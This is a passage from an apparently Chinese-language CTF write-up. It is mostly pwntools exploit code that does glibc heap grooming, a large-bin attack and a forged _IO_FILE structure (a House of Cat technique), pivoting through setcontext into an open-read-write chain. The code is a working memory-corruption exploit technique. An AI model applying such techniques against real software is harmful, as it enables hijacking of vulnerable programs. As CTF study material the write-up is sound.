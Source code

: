 ```
add(4,0x430)

#gdb.attach(io)
add(5,0x440) #large
add(7,0x430)
add(8,0x430) #unsort
free(5)
add(9,0x450)
top_chunk = heap_base + 0x28d0 
payload = p64(libc_base+0x21a0e0)*2 +p64(heap_base+0x17a0) + p64(top_chunk+3 - 0x20)
edit(5,payload)
free(8)
#add(10,0x460)
#gdb.attach(io)

io.sendafter("mew mew mew~~~~~~\n","CAT | r00t QWB QWXF$\xff")
io.sendlineafter('plz input your cat choice:\n',str(1))
io.sendlineafter('plz input your cat idx:',str(11))
gdb.attach(io,'b* (_IO_wfile_seekoff)')
#gdb.attach(io)
io.sendlineafter('plz input your cat size:',str(0x450))



io.interactive()
```

**分析一下伪造的IO**



```
fake_io_addr = heap_base + 0xb00

fake_IO_FILE  =p64(0)*6
fake_IO_FILE +=p64(1)+p64(0)  #这里为了绕过检查
fake_IO_FILE +=p64(fake_io_addr+0xb0)#_IO_backup_base=rdx 这里是rdx
fake_IO_FILE +=p64(setcontext+0x3d)#_IO_save_end=call addr   这里是rax + 0x18的位置
fake_IO_FILE  =fake_IO_FILE.ljust(0x58,b'\x00')
fake_IO_FILE +=p64(0)  # _chain
fake_IO_FILE  =fake_IO_FILE.ljust(0x78,b'\x00')
fake_IO_FILE += p64(heap_base+0x200)  # _lock = writable address
fake_IO_FILE = fake_IO_FILE.ljust(0x90,b'\x00')
fake_IO_FILE +=p64(heap_base+0xb30) #rax1  0x90位置为第一次的rax （rax+0xa0）
fake_IO_FILE = fake_IO_FILE.ljust(0xB0,b'\x00')
fake_IO_FILE += p64(0)
fake_IO_FILE = fake_IO_FILE.ljust(0xC8,b'\x00')
fake_IO_FILE += p64(libc_base+0x2160c0+0x10)  # vtable=_IO_wfile_jumps+0x10
fake_IO_FILE += p64(0) *6
fake_IO_FILE += p64(fake_io_addr + 0x40) #rax2+0xe0
fake_IO_FILE += p64(0) * 7 + p64(fake_io_addr + 0x160) + p64(pop_rdi+1) #rdx + 0xa0 , 0xa8
fake_IO_FILE += orw
```
